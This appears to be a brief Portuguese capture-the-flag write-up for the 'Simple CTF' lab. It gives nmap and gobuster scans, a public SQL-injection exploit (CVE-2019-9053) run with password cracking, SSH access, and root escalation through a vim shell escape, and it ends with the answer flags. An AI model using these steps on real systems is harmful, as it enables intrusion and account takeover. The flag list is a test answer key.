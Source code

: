 CTF SIMPLE-CTF

Ao gerar o IP dei o comando:
    
    nmap -A "ip"

que mostrou as duas primeiras flags.

<br>

Apos isso usando a ferramenta Gobuster mostrou que o ip tinha um /simple que era uma aplicacao web, ao entrar vimos a versao que foi feita("CMS 2.2.10") ao procurar exploits encotrei um sql injection assim descobrindo mais duas flags.


     gobuster dir -u http://10.10.250.145/ -w directory-list-2.3-medium.txt -t 100


Ao rodar o script em python na aplicacao web era possivel encontrar o user mitch e sua senha. Ao entrar no usuario mitch pelo ssh tinhamos acesso a mais uma flag em um arquivo .txt

    $ python2 46635.py -u http://10.10.250.145/simple/ --crack -w /usr/share/wordlists/rockyou.txt


Em seguida usamos o reverseshell conseguimos ter acesso root e ler a pasta root e concluindo o desafio.

    vim -c ':!/bin/sh'


FLAGS

    Flag 1: 2
    Flag 2: ssh
    Flag 3: CVE-2019-9053
    Flag 4: sqli
    Flag 5: secret
    Flag 6: ssh
    Flag 7: G00d j0b, keep up!
    Flag 8: sunbath
    Flag 9: vim
    Flag 10: W3ll d0n3. You made it!


